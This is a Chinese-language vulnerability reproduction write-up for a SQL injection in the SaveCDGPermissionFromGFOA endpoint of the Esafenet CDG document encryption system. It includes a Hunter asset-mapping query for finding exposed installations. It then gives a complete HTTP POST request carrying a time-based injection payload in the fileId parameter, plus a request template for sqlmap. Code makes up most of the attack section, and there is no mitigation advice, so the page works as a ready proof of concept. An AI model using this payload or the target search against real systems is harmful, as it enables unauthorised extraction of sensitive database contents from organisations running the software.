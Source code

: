 # 亿赛通电子文档安全管理系统SaveCDGPermissionFromGFOA存在SQL注入漏洞

# 一、漏洞简介
 亿赛通电子文档安全管理系统（简称：CDG）是一款电子文档安全加密软件，该系统利用驱动层透明加密技术，通过对电子文档的加密保护，防止内部员工泄密和外部人员非法窃取企业核心重要数据资产，对电子文档进行全生命周期防护，系统具有透明加密、主动加密、智能加密等多种加密方式，用户可根据部门涉密程度的不同（如核心部门和普通部门），部署力度轻重不一的梯度式文档加密防护，实现技术、管理、审计进行有机的结合，在内部构建起立体化的整体信息防泄露体系，使得成本、效率和安全三者达到平衡，实现电子文档的数据安全。亿赛通电子文档安全管理系统SaveCDGPermissionFromGFOA存在SQL注入漏洞，攻击者可通过该漏洞获取数据库敏感信息。

# 二、影响版本
+ 亿赛通电子文档安全管理系统

# 三、资产测绘
+ hunter`app.name="ESAFENET 亿赛通文档安全管理系统"`
+ 登录页面

![1693912211487-1ee3eb84-62a3-4c32-806a-6be32537dfb6.png](./img/nUy0RX7OgSGybkW4/1693912211487-1ee3eb84-62a3-4c32-806a-6be32537dfb6-800753.png)

# 四、漏洞复现
```plain
POST /CDGServer3/js/../SaveCDGPermissionFromGFOA HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Length: 39
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded

fileId=1';WAITFOR DELAY '0:0:5'--&pis=1
```

![1708236677491-71b76e2c-2bde-40b9-b677-5cad1b163cd6.png](./img/nUy0RX7OgSGybkW4/1708236677491-71b76e2c-2bde-40b9-b677-5cad1b163cd6-852730.png)

sqlmap

```plain
POST /CDGServer3/js/../SaveCDGPermissionFromGFOA HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Length: 15
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded

fileId=1&pis=1
```

![1708236708494-e4cac02c-8d40-418a-9fa7-37add9d9b0d8.png](./img/nUy0RX7OgSGybkW4/1708236708494-e4cac02c-8d40-418a-9fa7-37add9d9b0d8-483755.png)



> 更新: 2024-04-20 22:01:35  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ftiyy7n8ys975zao>